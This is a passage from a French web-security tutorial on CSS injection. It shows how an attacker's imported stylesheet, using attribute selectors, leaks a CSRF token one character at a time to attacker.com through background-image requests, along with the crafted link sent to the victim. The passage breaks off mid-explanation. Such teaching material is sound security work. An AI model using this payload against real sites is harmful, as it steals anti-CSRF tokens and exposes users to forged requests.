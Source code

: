 La victime verra donc ainsi l'application du style CSS :&#x20;

<figure><img src="../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Pour l'attaquant, l'idée ici sera d'utiliser la feuille de style CSS sous son contrôle afin d'exécuter les attaques vues précédemment, mais sans avoir besoin d'iframer le site vulnérable ou de passer plusieurs fois des liens malicieux à sa victime (un premier lien pour identifier le premier caractère, un second lien pour le second caractère, etc).

### @import et sélecteurs d'attributs

Il est possible d'utiliser la règle `@import` afin de récupérer la valeur d'un attribut HTML, comme déjà vu dans la première partie. L'attaquant va tout d'abord créer la page d'instructions CSS suivante :&#x20;

{% code overflow="wrap" %}
```css
input[name=csrf-token][value^=a]~* {
  background-image:url(https://attacker.com/?leak=a);
}

input[name=csrf-token][value^=b]~* {
  background-image:url(https://attacker.com/?leak=b);
}

input[name=csrf-token][value^=c]~* {
  background-image:url(https://attacker.com/?leak=c);
}

...

input[name=csrf-token][value^=z]~* {
  background-image:url(https://attacker.com/?leak=z);
}
```
{% endcode %}

Puis, fournir le lien exploitant l'injection à sa victime :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/regle-import.php?css=@import%20url(https://attacker.com/style.css)
```
{% endcode %}

Une fois le premier caractère connu, il forgera une nouvelle feuille de style puis tentera de tromper à nouveau sa victime. Soit, en admettant que le premier caractère récupéré est `c` :&#x20;
